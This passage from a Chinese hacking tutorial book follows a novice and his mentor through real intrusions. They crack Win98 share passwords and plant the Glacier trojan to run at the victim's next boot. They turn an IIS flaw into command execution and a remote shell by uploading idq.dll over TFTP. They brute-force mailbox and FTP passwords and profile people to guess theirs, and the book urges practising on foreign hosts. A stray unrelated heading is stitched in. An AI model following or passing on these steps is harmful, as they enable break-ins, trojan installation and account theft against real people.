榕哥说，利用这个漏洞，最理想的情况是你的电脑处在局域网内，如果你通过校园网或者公司的企业网上网，那么这个方法的成功率会较高。阿瓜心想，那正好，小区现在安装了局域网，正好创造了方便，不然还要到网吧去试。

下面是阿瓜的入侵记录。

### 第一步，用 shed 扫描共享资源


4-3-1 搜索共享主机

在扫描到共享以后，如图4-3-1所示，应该判断一下是否为 Win98 的共享，如果不是 Win98 的共享那么就不能利用共享漏洞了。

> “傻瓜教练”：在“选项”中只选上“显示共享文件夹”，这样搜索出来的共享文件夹就只显示共享文件夹，而不显示 Win2000 等的默认共享和进程间通信的连接等没用的信息。如图4-3-2所示。


4-3-2 只搜索 Win98 共享文件夹

判断扫描到的主机是否为 Win98，可以用“追捕”。在地址栏里填上你搜索到的共享主机的地址，在“检查对方机器”上打上勾，点击“追捕”即可。使用界面如下：


4-3-3 用追捕判断对方主机的操作系统

搜索到共享主机后，在 shed 界面上显示的主机地址上双击，就会出现登录界面提示输入密码。当然如果没有出现登录界面，那说明对方根本没设密码，那么就可以直接进入了，如图4-3-4所示。


4-3-4 登录界面

### 第二步，用 Pqwak 破解密码

在 shed 的界面上显示：


4-3-5 主机信息

其中，“202.xxx.xxx.xxx”为对方 IP 地址，`\` 之后为电脑名，下面一行为“共享名”。阿瓜在 Pqwak 的使用界面上按上面的信息。

填写好各栏，“延时”一项默认即可。点击“确定”，如图4-3-6所示。

等一会儿，当程序结束时，就看到下面的界面。如图4-3-7所示，箭头所指处即为密码。这时再双击 share 上相应的共享，就可以进入对方机器了。


4-3-6 使用PQwak


4-3-7 破解出密码

阿瓜试了几次这个软件后发现，不论哪个共享，密码都是那么简单，真像这些人都商量好了，怎么密码都这么简单呢？榕哥告诉阿瓜说，其实这正是 Win98 的系统共享密码验证系统存在一个缺陷，使得同一局域网内的电脑通过修改自己系统的一些设置后，只需最多猜测256次，即可获得对方密码。PQwak 即是根据这一原理实现密码破解的。

## 第三步，进一步的探索

榕哥对阿瓜说，一般说来，进入对方的共享文件夹，就能看到对方的文件了，我们的好奇心也就可以满足了。但是，在有些情况下，我们还可以有进一步的动作。比如说，当对方共享的是系统盘 C 盘时，我们在进入以后，如果 C 盘是可写的，就是说如果可以在里面创建文件，那么可以将一个木马的服务端复制到对方 c:\windows\system 目录下。注意千万不要点击运行，因为文件虽然在对方机器上，但是你点击时这个程序却是在你的电脑里运行的。

也就是说，运行后，不是他被安装了木马，而是你自己被安装了木马。我们可用别的方法来达到在他机器上安装木马的目的。例如，我们选择冰河服务端 G_server.exe，将其粘贴到对方的 c:\windows\system 目录下（如图4-3-8）。


4-3-8 粘贴木马服务端

将 G_server.exe 创建快捷方式，并将此快捷方式剪切到 c:\windows\start menu\ 目录下。

好了，大功告成。等到对方下次开机时，冰河就会在对方机器上运行了。下面怎么做就不用我说了。但是，如果被对方发现“启动”一项里的毛病，那你可就要看运气好坏了。

阿瓜心想，原来利用 Win98 的漏洞还不如利用 Win2000 的漏洞过瘾啊。


### 4.4 危险之旅——入侵网站

随着阿瓜这些日子的学习，阿瓜对网络深层的东西越来越感兴趣。阿瓜心想，我们平常上网最多的应用是浏览网页，这些网页都是存放在 Web 服务器上的。这些服务器也会存在一些漏洞，使得我们可以获得额外的权限，直至最高权限。不过，阿瓜明白，由于 Web 服务大都属于一些网站所有，如果利用这些漏洞入侵了对方服务器，由此引起的法律责任将由自己一人负责，后果可能会很严重。

阿瓜又向榕哥请教。榕哥看到阿瓜进步这么快，心里也很高兴，于是就给他说了几个比较著名的 Web 漏洞的常见入侵方法。榕哥说：“这会涉及到一些关于网站建构的原理和技术，你最好找点相关资料看看，弄清网站常用的建构方法。”

### 4.4.1 潜然是骇客们——剖析IIS漏洞入侵

阿瓜在网上搜索资料，了解到 IIS 的全称为 Internet Information Services，即“互联网信息服务”，是微软的 Web 服务提供程序。正是这一服务程序存在漏洞。通过扫描器，可以扫描到漏洞主机，然后就可以采用一些手段入侵主机了。要做到这些，有很多种方法，榕哥给阿瓜推荐了最简单的一种方法。

榕哥说，用这种方法工具很重要，所以我们使用以下工具。

- 工具：流光 4.5 或 4.6

第一步，扫描漏洞主机。安装运行流光后，出现流光的使用界面，如图4-4-1所示。


4-4-1 流光的使用界面

点击“扫描设置”，出现如图4-4-2界面。选择“反向”，再选中“检测项目”中的“IIS”，如图4-4-3所示。


4-4-2 扫描设置


4-4-3 只扫描 IIS 漏洞主机

将上面的“起始地址”和“结束地址”填上。注意，流光的作者将流光的扫描范围加了限制，对国内的网址扫描是不允许的，你可以扫描国外的主机，或者在局域网内也是不受限制的。不过，如果你是新手的话，最好不要用。因为流光的功能非常强大，如果你在国内入侵主机，很可能造成十分严重的后果。在考虑你后半生的情况下请慎重选择。好了，我们在地址栏里填上地址，然后确定。过一会儿，就会出现扫描结果，如图4-4-4所示。


4-4-4 扫描结果

另一种扫描方法是，选择“探测”→“扫描POP3/FTP/NT/SQL主机”，出现对话框如图4-4-5所示，在对话框里填写各项参数：


4-4-5 另一种扫描方法

扫描结果为：


4-4-6 扫描结果

同时，可以看到在下面的列表里出现各种主机的列表，如图4-4-7所示。


4-4-7 扫描到的主机列表

其中箭头所指为黑色主机（软件为彩色界面），我们可以利用这种主机。用鼠标单击黑色主机→连接，出现 IIS 远程命令行工具，如图4-4-8所示。


4-4-8 IIS 远程命令

```bash
copy c:\winnt\system32\cmd.exe c:\inetpub\scripts\fuck.exe
```

结果见上图。此时在浏览器中输入：

http://xxx.xxx.xxx.xxx/scripts/fuck.exe?/c+dir+c:\

如果返回对方 c:\ 目录，啊，搞定了！


4-4-9 成功执行命令

## 第二步，取得系统管理员权限

阿瓜想把冰河的服务端复制上去，那样就可以做任何事了。不过，榕哥说还有别的方法。方法如下：

首先在 IIS 远程命令行中输入：

```bash
dir c:\idq.dll /s
```


4-4-10 找到 idq.dll 文件

如果找到文件就：

```bash
copy c:\......\idq.dll c:\inetpub\scripts
```

如果没有找到，直接运行 TFTP32 把 idq.dll 上传，在浏览器中输入：

```bash
http://192.168.0.1/scripts/fuck.exe?/c+TFTP -i 你的IP GET idq.dll c:\inetpub\scripts\idq.dll
```

成功后运行 ispc.exe：

```bash
ispc 192.168.0.1/scripts/idq.dll
```

接着出现：

```text
Start to connect to the server...
We Got It!
Please Press Some to Enter Shell....
Microsoft Windows 2000 [Version 5.00.2195]
(C) 版权所有 1985-2000 Microsoft Corp.

bat
C:\WINNT\system32>
```

这样，就可以添加用户了！榕哥说，然后就随便你了！这一节需要用到一些命令，如果你不熟悉的话，可能会有些困难，所以网络基础一定要有。阿瓜挺喜欢学命令的，榕哥给了阿瓜一份命令详解（见附文）。

#### 4.4.2 机会无处不在——其他漏洞列举

阿瓜觉得利用 Web 漏洞入侵的学问很大，不是短时间就能全部掌握的，就问榕哥其他漏洞还有什么。榕哥说，还有 CGI 漏洞、ASP 漏洞、BBS 漏洞等，各类漏洞又有很多种，这些我也在不断学习，而且别人也在不断寻找漏洞和漏洞的利用方法，当然，还有漏洞的补救方法。正是因为软件会存在漏洞，所以才会有黑客的存在，才会有网络安全专家的存在。

针对这些漏洞都有很多漏洞扫描器。不过，对初学者来说，流光是最好的选择。

榕哥说，黑客攻击的一般程序就是，“确定攻击目标”→“寻找主机漏洞”→“利用主机漏洞获得系统管理员权限”。所以漏洞扫描器是典型入侵必不可少的工具。然后，针对不同的漏洞，入侵的具体方法也不一样，需要根据具体情况而定，而真正吸引黑客的却恰恰是这些。能够自己发现一个漏洞并想出漏洞的利用方法，是很值得黑客引以为荣的事情。对于我们初学者来说，最重要的是要多学点网络的基础知识，然后多用前辈们开发的工具练习。相信这样不久，你就会很有成就感了。

阿瓜回想自己学知识的过程，感觉自己学得越多，想知道的东西也越多。

### 4.5 最后一招——通过远程密码破解入侵

阿瓜晚上躺在床上想，并不是所有的电脑都是存在漏洞的，有些电脑的安全工作做得很好，很难找到可以直接利用的漏洞，那么这种情况下是不是就没办法了呢？发信问榕哥。榕哥回答说，我们没有什么漏洞可以利用的时候，我们就得求助密码破解了。密码破解可以用在很多方面。比如，邮箱破解、FTP 破解、站点登录破解、共享破解、主机登录破解等。这些破解的方法很相似，关键要有相应的工具和好的字典。现在比较好用的工具有：流光、溯雪等。

### 4.5.1 你的就是我的——破解邮箱密码

阿瓜早就听人说过邮箱破解，可是自己一直没机会试，这时正好有机会练练。榕哥说，邮箱破解可以是在 Web 登录页面上进行的，也可以不用登录界面。前者用溯雪，后者用流光。

阿瓜在榕哥的指导下，先学习了用流光破解邮箱密码的方法。

下面是阿瓜的破解记录：

## 第一步，添加用户

榕哥说，首先你要知道你想破解的邮箱的用户名，可以自己申请一个免费邮箱，然后拿自己的先练练手。比如，我们在 WWW.eyou.com 上申请了一个用户名 testhack，密码为******（由你自己设）。我们运行流光，在“POP3主机”上点击右键，填上主机名。

在4-5-1图中点击“添加”，弹出一个对话框。在对话框中填上要破解的邮箱的 POP3 主机地址。此地址可以从申请邮箱的网站邮件主页上看到。通常是“pop.”+“所用邮箱地址@”后面的后缀（如图4-5-2所示）。


4-5-1 添加邮箱用户名


4-5-2 添加主机

然后在添加后的主机上点击右键，出现“添加用户”对话框。


4-5-3 添加用户

在跳出的对话框中填上“testhack”，填完后确定。


4-5-4 添加用户后

## 第二步，添加字典

所谓“字典”就是指我们把可能的用户密码收集在一起存成的文件。我们也可以自己做字典。


4-5-5 流光自带的字典工具

阿瓜使用流光自带的“黑客字典III”来做字典文件。

榕哥说，字典的设置有很多学问，选择一个好的字典可以使我们的破解工作效率大大提高。密码有两个属性，一个是密码的长度，另一个是密码使用的字符。一般来说，密码长度小、字符选用数字则相对较容易破解。如果你知道对方密码所用字符在一个怎样小的范围，那么工作会更容易。

> **黑客兵法**：关键针对不同的用户如何选择密码，请参见附文“密码心理学”。破解密码运气很重要，运气好则很可能很容易破解，运气不好那可能会用很多时间。假如有别的方法，我们不会选择密码破解。但是如果没有别的办法，我们就要有耐心。

阿瓜还是很有耐心的。如图4-5-6，黑客字典提供了强大的密码字典制作功能。阿瓜把 testhack@eyou.com 的密码设为 abc12。阿瓜心想，假设别人要破解我的密码，而且他知道我的密码含有 abc12 等字符，那么他应该设置为如图4-5-7所示的参数：


4-5-6 用黑客字典III做密码字典


4-5-7 密码设置结果

好的，就这样设置。完成后，可以看看别的选项中的设置，如图4-5-8设置。设置完后，我们把文件保存起来，在“文件存放位置”项目里点击“浏览”，在跳出的对话框中填上文件名“hacktest”。确定后，结果如图4-5-9所示。


4-5-8 选项的设置


4-5-9 保存密码文件

榕哥说，如果文件太大的话，可以选择“拆分文件”。“高级选项”可以不用。如果你对对方密码的设置了解较多的话，就把相应的选项设置好，这样可以使速度更快。现在点击“确定”，好了，密码字典做好了。


4-5-10 密码设置完毕

点击“开始”，过一会儿对话框提示字典做好了。


4-5-11 添加解码字典

在图4-5-11里，点右键，在弹出的工具条里点击“编辑”→“添加”，出现一个对话框。在文件夹里选择“hacktest”文件即可。


4-5-12 选择我们做的字典文件

## 第三步，探测密码

在主界面菜单栏里点击“探测”，在弹出的工具条里选择“标准模式探测”（如图4-5-13），用我们选的密码字典做探测。数秒后，出现结果。


4-5-13 用标准模式探测密码


4-5-14 密码探测成功

第三步，探测密码。

选择简单密码探测，这种探测方法对每个用户名只进行简单的一两个常用的密码探测，可以迅速找到密码设置简单的用户。通常简单密码为“用户名”或“123456”，我们也可以自己设置。在菜单“选项”中选择“简单模式设置”，出现如图4-5-16对话框，我们可以做一些选择设置。


4-5-16 简单模式设置

通过对上面的密码破解方法的演练，阿瓜体会到密码字典的选择有多么重要的地位。可是，如何更好地选择密码呢？榕哥给阿瓜推荐了“密码心理学”（见附文）。

### 4.5.2 异曲同工——FTP站点破解

FTP 是一种网络服务，可以利用 FTP 从主机上传/下载文件。如果我们得到 FTP 权限，就可以上传木马等后门工具，或者可以把主机上的用户密码文件下载下来。但是很多 FTP 站点都是受密码保护的，所以我们有时需要破解 FTP 密码。

破解 FTP 与破解邮箱方法差不多。阿瓜在“FTP主机”里添加主机地址，然后添加用户名，选择密码文件，然后确定，进行探测。阿瓜知道关键是要知道用户名是否存在，并且要选择合适的密码字典。榕哥对阿瓜说，如果只是要得到一个 FTP 的权限，我们可以用下面的方法。

- 1. 添加主机。如果不知道哪个主机是 FTP 主机，可以搜索主机，然后再添加。
- 2. 添加用户列表。在用户名上点击右键，出现如图4-5-15添加用户列表，流光的目录下有一些常用用户列表。我们选择其中一个，然后点击“打开”。


4-5-15 添加用户列表

> 俊瓜小结：  
> 要学习掌握黑客攻防的技术，练习是最重要的，另外，必须的网络知识也是必不可少的。这一篇讲的网络远程入侵，实际上是黑客们做得最多的事情，也是最有学问的。我们只是把基本的原理借用一些现成的工具讲了出来。通过这些大家可以对黑客入侵的过程和方法有个基本的认识。如果你想进一步学习黑客知识，仅仅依靠这些工具是不够的，深入学习更加重要。不过本篇讲的这些如果你都掌握了，你也已经可以造成很大的危害了，当你不慎想做什么对不起人民的事时，还望三思而行，慎重，慎重。如果忍不住，不要在国内练习，国外目前管不着你，你可以拿国外主机来试试。


## 附文1 DOS下常用的相关网络命令

## Arp

显示和修改“地址解析协议”（ARP）所使用的到以太网的 IP 或令牌环物理地址翻译表。该命令只在安装了 TCP/IP 协议之后才可用。

```bash
arp -a [inet_addr] [-N [if_addr]]
arp -d inet_addr [if_addr]
arp -s inet_addr ether_addr [if_addr]
```

参数：

- -a  
  通过询问 TCP/IP 显示当前 ARP 项。如果指定了 inet_addr，则只显示指定计算机的 IP 和物理地址。
- -g  
  与 -a 相同。
- inet_addr  
  以加点的十进制标记指定 IP 地址。
- -N  
  显示由 if_addr 指定的网络界面 ARP 项。
- if_addr  
  指定需要修改其地址转换表接口的 IP 地址（如果有的话）。如果不存在，将使用第一个可适用的接口。
- -d  
  删除由 inet_addr 指定的项。
- -s  
  在 ARP 缓冲中添加项，将 IP 地址 inet_addr 和物理地址 ether_addr 关联。物理地址由以连字符分隔的6个十六进制字节给定。使用带点的十进制标记指定 IP 地址。项是永久性的，则在超时到期后项自动从缓存删除。
- ether_addr  
  指定物理地址。

## Finger

在运行 Finger 服务的指定系统上显示有关用户的信息。根据远程系统输出不同的变量。该命令只有在安装了 TCP/IP 协议之后才可用。

```bash
finger [-l] [user]@computer[...]
```

参数：

- -l  
  以长列表格式显示信息。
- user  
  指定要获得相关信息的用户。省略 user 参数以显示指定计算机上所有用户的信息。
- @computer

## FTP

将文件传送到正在运行 FTP 服务的远程计算机，或从正在运行 FTP 服务的远程计算机传送文件（有时称作 daemon）。FTP 可以交互使用。

单击“相关主题”列表中的“FTP 命令”以获得可用的“FTP”子命令描述。该命令只有在安装了 TCP/IP 协议之后才可用。FTP 是一种服务，一旦启动，将创建在其中可以使用 FTP 命令的子环境，通过键入 quit 子命令可以从子环境返回到 Windows 2000 命令提示符。当 FTP 子环境运行时，它由 FTP 命令提示符代表。

```bash
FTP [-v] [-n] [-i] [-d] [-g] [-s:filename]
[-a] [-w:windowsize] [computer]
```

参数：

- -v  
  禁止显示远程服务器响应。
- -n  
  禁止自动登录到初始连接。
- -i  
  多个文件传送时关闭交互提示。
- -d  
  启用调试，显示在客户端和服务器之间传递的所有 FTP 命令。
- -g  
  禁用文件名组，它允许在本地文件和路径名中使用通配符字符（* 和 ?）。（请参阅联机“命令参考”中的 glob 命令。）
- -s:filename  
  指定包含 FTP 命令的文本文件；当 FTP 启动后，这些命令将自动运行。该参数中不允许有空格。使用该开关而不是重定向（>）。
- -a  
  在捆绑数据连接时使用任何本地接口。
- -w:windowsize  
  替代默认大小为 4096 的传送缓冲区。
- computer  
  指定要连接到远程计算机的计算机名或 IP 地址。如果指定，computer 必须是行的最后一个参数。

## Nbtstat

该诊断命令使用 NBT（TCP/IP 上的 NetBIOS）显示协议统计和当前 TCP/IP 连接。该命令只有在安装了 TCP/IP 协议之后才可用。

```bash
nbtstat [-a remotename] [-A IP address] [-c] [-n] [-R] [-r] [-S] [-s] [interval]
```

参数：

- -a remotename


- `-A IP address`  
  使用远程计算机的 IP 地址并列出名称表。

- `-c`  
  给定每个名称的 IP 地址并列出 NetBIOS 名称缓存的内容。

- `-n`  
  列出本地 NetBIOS 名称。“已注册”表明该名称已被广播（B-node）或者 WINS（其他节点类型）注册。

- `-R`  
  清除 NetBIOS 名称缓存中的所有名称后，重新装入 Lmhosts 文件。

- `-r`  
  列出 Windows 网络名称解析的名称解析统计。在配置使用 WINS 的 Windows 2000 计算机上，此选项返回要通过广播或 WINS 来解析和注册的名称数。

- `-S`  
  显示客户端和服务器会话，只通过 IP 地址列出远程计算机。

- `-s`  
  显示客户端和服务器会话。尝试将远程计算机 IP 地址转换成使用主机文件的名称。

- `interval`  
  重新显示选中的统计，在每个显示之间暂停 interval 秒。按 CTRL+C 停止重新显示统计信息。如果省略该参数，nbtstat 打印一次当前的配置信息。

## Netstat

显示协议统计和当前的 TCP/IP 网络连接。该命令只有在安装了 TCP/IP 协议后才可以使用。

```bash
netstat [-a] [-e] [-n] [-s] [-p protocol] [-r] [interval]
```

### 参数

- `-a`  
  显示所有连接和侦听端口。服务器连接通常不显示。

- `-e`  
  显示以太网统计。该参数可以与 `-s` 选项结合使用。

- `-n`  
  以数字格式显示地址和端口号（而不是尝试查找名称）。

- `-s`  
  显示每个协议的统计。默认情况下，显示 TCP、UDP、ICMP 和 IP 的统计。`-p` 选项可以用来指定默认的子集。

- `-p protocol`  
  显示由 protocol 指定的协议的连接；protocol 可以是 TCP 或 UDP。如果与 `-s` 选项一同使用显示每个协议的统计，protocol 可以是 TCP、UDP、ICMP 或 IP。

- `-r`  
  显示路由表的内容。

- `interval`  
  重新显示所选的统计，在每次显示之间暂停 interval 秒。按 CTRL+C 停止重新显示统计信息。如果省略该参数，netstat 将打印一次当前的配置信息。

## Ping

验证与远程计算机的连接。该命令只有在安装了 TCP/IP 协议后才可以使用。

```bash
ping [-t] [-a] [-n count] [-l length] [-f] [-i ttl] [-v tos] [-r count] [-s count] [[-j computer-list] | [-k computer-list]] [-w timeout] destination-list
```

### 参数

- `-t`  
  Ping 指定的计算机直到中断。

- `-a`  
  将地址解析为计算机名。

- `-n count`  
  发送 count 指定的 ECHO 数据包数。默认值为 4。

- `-l length`  
  发送包含由 length 指定的数据量的 ECHO 数据包。默认为 32 字节；最大值是 65,527。

- `-f`  
  在数据包中发送“不要分段”标志。数据包就不会被路由上的网关分段。

- `-i ttl`  
  将“生存时间”字段设置为 ttl 指定的值。

- `-v tos`  
  将“服务类型”字段设置为 tos 指定的值。

- `-r count`  
  在“记录路由”字段中记录传出和返回数据包的路由。count 可以指定最少 1 台、最多 9 台计算机。

- `-s count`  
  指定 count 指定的跃点数的时间戳。

- `-j computer-list`  
  利用 computer-list 指定的计算机列表路由数据包。连续计算机可以被中间网关分隔（路由稀疏源），IP 允许的最大数量为 9。

- `-k computer-list`  
  利用 computer-list 指定的计算机列表路由数据包。连续计算机不能被中间网关分隔（路由严格源），IP 允许的最大数量为 9。

- `-w timeout`  
  指定超时间隔，单位为毫秒。

- `destination-list`  
  指定要 ping 的远程计算机。

## Rcp

在 Windows 2000 计算机和运行远程外壳端口监控程序 rshd 的系统之间复制文件。rcp 命令是一个连接命令，从 Windows 2000 计算机发出该命令时，也可以用于在两台运行 rshd 的计算机之间传输文件。rshd 端口监控程序可以在 UNIX 计算机上使用，而在 Windows 2000 上不能使用，所以 Windows 2000 计算机仅可以作为发出命令的系统参与。远程计算机必须也通过运行 rshd 提供 rcp 实用程序。

```bash
rcp [-a | -b] [-h] [-r] source1 source2 ... sourceN destination
```

### 参数

- `-a`  
  指定 ASCII 传输模式。此模式在传出文件上将回车/换行符转换为回车符，在传入文件中将换行符转换为回车/换行符。该模式为默认的传输模式。

- `-b`  
  指定二进制图像传输模式。没有执行回车/换行符转换。

- `-h`  
  传输 Windows 2000 计算机上标记为隐藏属性的源文件。如果没有该选项，在 rcp 命令行上指定隐藏文件的效果与文件不存在一样。

- `-r`  
  将源的所有子目录内容递归复制到目标。source 和 destination 都必须是目录，虽然即使源不是目录，使用 `-r` 也能够工作，但将没有递归。

**source 和 destination**

格式必须为 `[computer[.user]]filename`。如果忽略了 `[computer[.user]]` 部分，计算机将假定为本地计算机。如果省略了 `[.user]` 部分，将使用当前登录的 Windows 2000 用户名。如果使用了完全合格的计算机名，其中包含句点（.）分隔符，则必须包含 `[.user]`。否则，计算机名的最后部分将解释为用户名。如果指定了多个源文件，则 destination 必须是目录。

如果文件名不是以 UNIX 的正斜杠（/）或 Windows 2000 系统的反斜杠（\）打头，则假定相对于当前的工作目录。在 Windows 2000 中，这是发出命令的目录。在远程系统中，这是远程用户的登录目录。句点（.）表示当前的目录。在远程路径中使用转义字符（\、" 或 '），以便在远程计算机中使用通配符。

## Rexec

在运行 REXEC 服务的远程计算机上运行命令。rexec 命令在执行指定命令前验证远程计算机上的用户名，只有在安装了 TCP/IP 协议后才可以使用该命令。

```bash
rexec computer [-l username] [-n] command
```

### 参数

- `computer`：指定要运行 command 的远程计算机。  
- `-l username`：指定远程计算机上的用户名。  
- `-n`：将 rexec 的输入重定向到 NULL。  
- `command`：指定要运行的命令。

## Route

控制网络路由表。该命令只有在安装了 TCP/IP 协议后才可以使用。

```bash
route [-f] [-p] [command [destination] [mask subnetmask] [gateway] [metric costmetric]]
```

### 参数

- `-f`  
  清除所有网关入口的路由表。如果该参数与某个命令组合使用，路由表将在运行命令前清除。

- `-p`  
  该参数与 add 命令一起使用时，将使路由在系统引导之间持久存在。默认情况下，系统重新启动时不保留路由。与 print 命令一起使用时，显示已注册的持久路由列表。忽略其他所有总是影响相应持久路由的命令。

- `command`：指定下列命令之一。

| 命令 | 目的 |
|---|---|
| `print` | 打印路由 |
| `add` | 添加路由 |
| `delete` | 删除路由 |
| `change` | 更改现存路由 |

- `destination`  
  指定发送 `command` 的计算机。

- `mask subnetmask`  
  指定与该路由条目关联的子网掩码。如果没有指定，将使用 `255.255.255.255`。

- `gateway`  
  指定网关。名为 Networks 的网络数据库文件和名为 Hosts 的计算机名数据库文件中均引用全部 destination 或 gateway 使用的符号名称。如果命令是 print 或 delete，目标和网关还可以使用通配符，也可以省略网关参数。

- `metric costmetric`  
  指派整数跃点数（从 1 到 9999），在计算最快速、最可靠和（或）最便宜的路由时使用。

## Rsh

在运行 RSH 服务的远程计算机上运行命令。该命令只有在安装了 TCP/IP 协议后才可以使用。

```bash
rsh computer [-l username] [-n] command
```

### 参数

- `computer`：指定运行 command 的远程计算机。  
- `-l username`：指定远程计算机上使用的用户名。如果省略，则使用登录的用户名。  
- `-n`：将 rsh 的输入重定向到 NULL。  
- `command`：指定要运行的命令。

## TFTP

将文件传输到正在运行 TFTP 服务的远程计算机，或从正在运行 TFTP 服务的远程计算机传输文件。该命令只有在安装了 TCP/IP 协议后才可以使用。

```bash
tftp [-i] computer [get | put] source [destination]
```

### 参数

- `-i`  
  指定二进制图像传送模式（也称为“八位字节”）。在二进制图像模式中，文件一个字节接一个字节地逐字节移动。在传送二进制文件时使用该模式。

- 省略 `-i`  
  文件将以 ASCII 模式传送。这是默认传送模式。此模式将 EOL 字符转换为 UNIX 的回车符和个人计算机的回车符/换行符。在传送文本文件时应使用此模式。如果文件传送成功，将显示数据传输率。

- `computer`  
  指定本地或远程计算机。

- `put`  
  将本地计算机上的文件 `destination` 传送到远程计算机上的文件 `source`。

- `get`  
  将远程计算机上的文件 `destination` 传送到本地计算机上的文件 `source`。

- 示例说明  
  如果将本地文件 `file-two` 传送到远程文件 `file-one`，请指定 `put`；如果将远程文件 `file-two` 传送到本地文件 `file-one`，请指定 `get`。

- 说明  
  因为 TFTP 协议不支持用户身份验证，所以用户必须登录，并且文件在远程计算机上必须可以写入。

- `source`  
  指定要传送的文件。如果本地文件指定为 `-`，则远程文件在 `stdout` 上打印出来（如果获取），或从 `stdin`（如果放置）读取。

- `destination`  
  指定将文件传送到的位置。如果省略了 destination，将假定与 source 同名。

## Tracert

该诊断实用程序将包含不同生存时间（TTL）值的 Internet 控制消息协议（ICMP）回显数据包发送到目标，以决定到达目标采用的路由。要在转发数据包上的 TTL 之前至少递减 1，路径上的每个路由器都必须执行该操作，所以 TTL 是有效的跃点计数。数据包上的 TTL 到达 0 时，路由器应该将“ICMP 已超时”的消息发送回源系统。Tracert 先发送 TTL 为 1 的回显数据包，并在随后的每次发送过程中将 TTL 递增 1，直到目标响应或 TTL 达到最大值，从而确定路由。路由通过检查中级路由器发送回的“ICMP 已超时”消息来确定。不过，有些路由器会悄悄丢弃包含过期 TTL 值的数据包，而 tracert 看不到。

```bash
tracert [-d] [-h maximum_hops] [-j computer-list] [-w timeout] target_name
```

### 参数

- `-d`：指定不将地址解析为计算机名。  
- `-h maximum_hops`：指定搜索目标的最大跃点数。  
- `-j computer-list`：指定沿 computer-list 的稀疏源路由。  
- `-w timeout`：每次应答等待 timeout 指定的毫秒数。  
- `target_name`：目标计算机的名称。

### 附文 2 密码心理学

首先要说明的是许多 Root 用户口令保护的方法：当口令设置完之后，检测程序会自动提示口令的不安全性，直到 Root 改成了没有规则的口令。所以对这些口令用口令心理学来分析是白费工夫的。我们主要针对的是一些普通用户。

当我们设定口令时，一般人都会用自己熟悉的单词，这样便于记忆。没办法，人天生就懒惰。那么哪些单词是他们容易记住的呢？请看：

1. 用自己的中文拼音者最多。如：wanghai、zhangli、shenqin 等等。  
2. 用常用的英文单词。许多人都用了很有特定意义的单词，如：good、happy、anything 等等。  
3. 用计算机中经常出现的单词。如：system、command、copy、harddisk、mouse 等等。  
4. 用自己的出生日期数字。如 970203、199703、050498 等。

虽然还有一些人常用的我没给他们归类，但还是有规律的，希望这能给你的解密带来一些启示，而不要再盲目地用暴力法了。

再看这些：

- , help? me?  
- o'love'  
- bady`zz~  
- 123#@!  
- 123!@#  
- ? tomy? chen?

时代在进步，人类的思想也在进步，古老的密码心理学已经跟不上社会的潮流。现在大家的网络安全意识相对有所提高……密码可谓千奇百怪，已经不会简单地停留在单词、数字、拼音字母上了……。

但有一点要说的是，虽然意识提高了，但还是懒。为什么呢？看看以前被成功破解出来的密码，无非都有以下几个特点：

1. 简单  
2. 易记  
3. 能够很快地敲出来（重要）

于是便开始想着如何快速输入密码：

1. 简单型：1234567（弱智型）；昵称+8（168）（888）时运型；昵称+123（000）懒惰型。  
2. 易记型：840815（我的生日）；1270528258（我的呼机）；13005006221（我的手机）；88250117（我的电话）。  
3. “聪明型”：helpme；./? helpme? ...；help!@#+123。

OK，好了，几种密码常用的类型公开了，就可以对人来进行分析了。所谓心理学，当然要了解人的心理，这才是最重要的。就拿最常用的 QQ 而言，从交谈中，你可以发现他是何种类型的人……这样，对你的成功猜解有着很大的帮助。当然，以上的密码只是例子，不可能说每个人都会用 helpme（现在这么安定的年代用它，有点太那个了吧 ^_^）。

还有就是……

“计算机计算机，从来不离 0 和 1？”没错，密码也一样！我曾经就和一个朋友打赌，由他破我的信箱。我两个信箱的密码分别为 0 和 1。结果他套上六位以上的字典，你说结果如何？没错，所以我得到一个 QQ 号；；）。

最简单的东西往往就是最复杂的东西……  
最复杂的东西也可能是最简单的。就像最安全的地方就是最危险的地方一个道理。

所以，我！！！向来反对暴力……劳神伤财……不是吗？坐着干等，此为劳神；网费暴涨，此为伤财。孔子曰：此乃不良之举也！

## 从肉畜农场到餐桌

## ——一本机械破解

## 第一章

## 第五章 从内部突破堡垒

## ——本机破解

阿瓜在学习了远程入侵的方法以后，突然想到：“远程主机的破解这么好玩，不知道要是破解自己的电脑好不好玩啊？如果我面对一个设有开机密码的电脑，我能不能登录电脑呢？或者在电脑上有人把一个文件夹加了密，我还能看到这个文件夹的内容吗？另外还有诸如软件密码破解等等，像这些问题，都是挺好玩的吧！可惜，我不会啊，不过没关系，我现在就学。”

阿瓜现在经过格哥的特训以后，已经不是当初的阿瓜了。阿瓜在查了一些资料后，了解到相对远程主机来说，本地破解要容易一些，但是由于本地破解的用处不如远程破解的用处大，所以关注的人较少。另外，由于本地主机本身交互性少，不像在网络上的主机本身就是建立在共享的基础上，所以可以用来破解本地主机的漏洞也较少。不过阿瓜感兴趣的关于本地破解的方法都是有的。阿瓜觉得还是应该请教一下格哥。

### 5.1 打开堡垒的铁门

阿瓜知道，不少主机为了信息安全，都会对电脑的使用者进行一些限制，使得用户需要提供密码才能使用电脑的资源。对于系统来说，较常遇到的密码破解情况包括 CMOS、BIOS、开机密码、屏幕保护锁定以及电源管理等。下面就是阿瓜学习的笔记。

#### 5.1.1 挖掘 CMOS 密码

阿瓜知道，要破解 CMOS，首先要搞清楚什么是 CMOS。所谓 CMOS，实际上就是一个用来设置硬件配置和系统引导的最基本程序，一般在开机后按“DEL”键就可以进入 CMOS 设置界面。工欲善其事，必先明其理。

- （一）先向大家说明一下 CMOS 的一些结构：

CMOS 里面实际上是一些以二进制形式存储的程序。里面不同位置的数字有不同的意义。

```text
00000000H 30 00 | FF 00 | 39 00 | FF 00 | 12 00 | FF 00 | 01 00 | 18 00
秒 | 秒报警 | 分 | 分报警 | 小时 | 时报警 | 星期 | 日
00000010H 11 00 | 98 00 | 26 00 | 02 00 | 70 00 | 80 00 | 00 00 | 00 00
月 | 年 | 寄存器A | 寄存器B | 寄存器C | 寄存器D | 诊断 | 下电
00000020H 40 00 | 7E 00 | F0 00 | 03 00 | 0F 00 | 80 00 | 02 00 | 00 00
软驱 | 密码域 | 硬盘 | 未知 | 设备 | 基本内存 | 扩充
00000030H 7C 00 | 2E 00 | 00 00 | 7F 00 | 15 00 | 86 00 | 00 00 | 00 00
内存 | 硬盘类型 | 未知 | 密码数据位 | 未知
00000040H 00 00 | 00 00 | 00 00 | 00 00 | 00 00 | 00 00 | E2 00 | 22 00
未知
00000050H 0F 00 | FF 00 | FF 00 | E1 00 | 22 00 | 3F 00 | 08 00 | 59 00
